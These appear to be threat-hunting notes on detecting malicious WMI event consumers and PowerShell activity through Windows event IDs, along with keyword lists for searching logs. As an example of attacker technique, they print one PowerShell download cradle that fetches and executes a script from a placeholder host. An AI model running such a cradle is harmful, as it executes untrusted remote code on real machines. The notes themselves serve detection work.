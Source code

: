 - All lateral movement artifacts can be viewed from the [Hunt Evil Poster](./files/SANS_Hunt_Evil_Poster.pdf).

- The text based version is also listed [HERE](./files/Hunt_Evil_Extracted.md).


### Auditing WMI Peristence (Hunting Artifact 🏹)
- Easily audit for malicious WMI event consumer
- EID 5858 records query errors, including host and username
- EID 5857-5861 record filter/consumer
- EID 5861 is the most useful: new permanent event consumer creation

### Quick Wins - WMI-Activity/Operational Log (Hunting Artifact 🏹)
- EID 5861: New permanent consumers
- Create an WMI consumer allowlist
- WMIC commandlines in Process Tracking (Security Logs)
- EID 5857 tracks loaded provider dlls
- EID 5858 includes hostname and username
- Search for:
- CommandLine
- ActiveScript
- scrcons
- wbemcons
- powershell
- eval
- .vbs
- .ps1
- ActiveXObject


### Quick Wins - PowerShell (Hunting Artifact 🏹)
- PowerShell/Operational Log
- EID 4103 records module/pipeline output
- EID 4104 record code (scripts) executed (look for "Warning" events)
- PowerShell download cradle heavily used in the wild
- ```IEX (New-Object Net.WebClient).dowloadstring("http://bad.com/bad.ps1")```
- Filter using commonly abused keywords
- download
- IEX
- rundll32
- http
- Start-Process
- Invoke-Expression
- Invoke-Command
- syswow64
- FromBase64String
- WebClient
- bitstransfer
- Reflection
- powershell -version
- Invoke-WmiMethod
- Invoke-CimMethod